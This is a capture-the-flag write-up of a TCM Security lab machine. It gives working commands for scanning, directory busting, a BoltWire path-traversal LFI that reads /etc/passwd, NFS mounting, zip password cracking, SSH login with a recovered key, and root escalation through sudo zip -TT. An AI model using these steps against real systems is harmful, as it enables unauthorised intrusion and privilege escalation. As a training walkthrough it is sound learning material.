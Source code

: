 # Dev machine writeup
This is a machine from tcm security, especially practical penetration testing course

Starting with nmap scan
```
sudo nmap 192.168.0.106 -T4 -A -p-
```
This is not the best way to implement a scan in real life scenario, Since we are doing CTF, it is okay

![nmap_scan](https://github.com/moataz-bellah/writeups/assets/47069499/0a26779d-dac7-43d4-a7c5-bab4a06393a1)

We have a lot of ports, but we will focus on 22, 80, 8080, 2049. We have two ports for http 80 and 8080. Let's see both of them.
- On port 80

![boltwire_port_80](https://github.com/moataz-bellah/writeups/assets/47069499/16a62c1b-5b5a-4844-9de2-cc55ac5ac842)

- On port 8080

![boltwire_port_8080](https://github.com/moataz-bellah/writeups/assets/47069499/41dd0ef2-e72a-40ed-95ab-718e8c4f08de)

Ok, let's do directory busting to find more useful dirs. I did dirbusting on both ports 80, 8080.

- For port 80

```
ffuf -u http://192.168.0.106/FUZZ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt:FUZZ
/extensions
/vendor
/app
/src
/public
```

- For port 8080

```
ffuf -u http://192.168.0.106:8080/FUZZ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt:FUZZ
/dev
```

We found a lot of paths, to save your time i checked all of them and i only found two useful directories /dev, /app. Let's start with /app. Inside /app, you will find some interesting files, but i want to  
on /app/config/config.yaml. When i checked that file, i found sqlite credentials

```
database:
    driver: sqlite
    databasename: bolt
    username: bolt
    password: I_love_java
```

Let's see /dev

![bolt_wire_login](https://github.com/moataz-bellah/writeups/assets/47069499/2228f650-8382-480a-96b3-467a3be2d50f)

I tried to login with the credentials (username: bolt, password: I_love_java) we found, but i didn't work. Ok, let's create a new account using from register. I created one (username: test, password: test).  
Exploring the site and i found something might be useful when you click print in the navbar.

![bolt_wire_version](https://github.com/moataz-bellah/writeups/assets/47069499/73cb83af-e18f-40a5-b0c8-83e91c751b5d)

Ok, we have the site version. I searched online for any exploit, and i found this site vulnerable to LFI. See these link for more information https://www.exploit-db.com/exploits/48411
https://github.com/Cyber-Wo0dy/CVE-2023-46501. Note, you have to be logged in to execute the exploit. Using /index.php?p=action.search&action=../../../../../../../etc/passwd i found that

![lfi_exploit](https://github.com/moataz-bellah/writeups/assets/47069499/582c44ba-f31d-42a3-95b4-f35ece34d933)

I found username "jeanpaul". I tried some other sensitive files, but it didn't work. Nothing more in this site. Let's move to port 2049.

```
showmount -e 192.168.0.106
Export list for 192.168.0.106:
/srv/nfs 172.16.0.0/12,10.0.0.0/8,192.168.0.0/16
```

Good, we have /srv/nfs, let's get it and see what it has.

```
mkdir /mnt/test
sudo mount -t nfs 192.168.0.106:/srv/nfs /mnt/test
```

I found a zip file "save.zip" protected with a passwrod. We crack the password using fcrackzip tool

```
sudo fcrackzip -D -u -p /home/robot/Desktop/rockyou.txt save.zip

PASSWORD FOUND!!!!: pw == java101
```

After unzipping the file, i found two files todo.txt , id_rsa.

```
cat todo.txt
- Figure out how to install the main website properly, the config file seems correct...
- Update development website
- Keep coding in Java because it's awesome

jp
```

It has nothing interesting, but we have a great file id_rsa which is a private key for ssh. Let's try to login to ssh using that file. I tried with (username: bolt, password: I_love_java), but it didn't work
I tried to login with (username: jeanpaul, password: I_love_java)

```
ssh -i id_rsa jeanpaul@192.168.0.106                            
Enter passphrase for key 'id_rsa': I_love_java
```

![ssh](https://github.com/moataz-bellah/writeups/assets/47069499/e98820f6-33f9-4d33-9331-cdf017fd8c84)

Heeey, we are in.

# Privilege Escalation

Let's see what commands we can run with root privileges using command sudo -l

```
jeanpaul@dev:~$ sudo -l
Matching Defaults entries for jeanpaul on dev:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User jeanpaul may run the following commands on dev:
    (root) NOPASSWD: /usr/bin/zip
```

We can run /usr/bin/zip with root privileges. How can we leverage that? I searched online, and i found that https://gtfobins.github.io/gtfobins/zip/.
According to that resource, we can abuse /usr/bin/zip to get root access by running these commands
```
TF=$(mktemp -u)
```

This will create a temporery file and put in TF variable. If we see zip help, we will see -TT option which allows us to run commands. We can abuse that to get root
access.

```
sudo zip $TF /etc/hosts -T -TT 'bash #'
```

![root_access](https://github.com/moataz-bellah/writeups/assets/47069499/0cfe0f2b-3e38-47cb-a797-ca9c5c35ae07)

Yees, we root now.








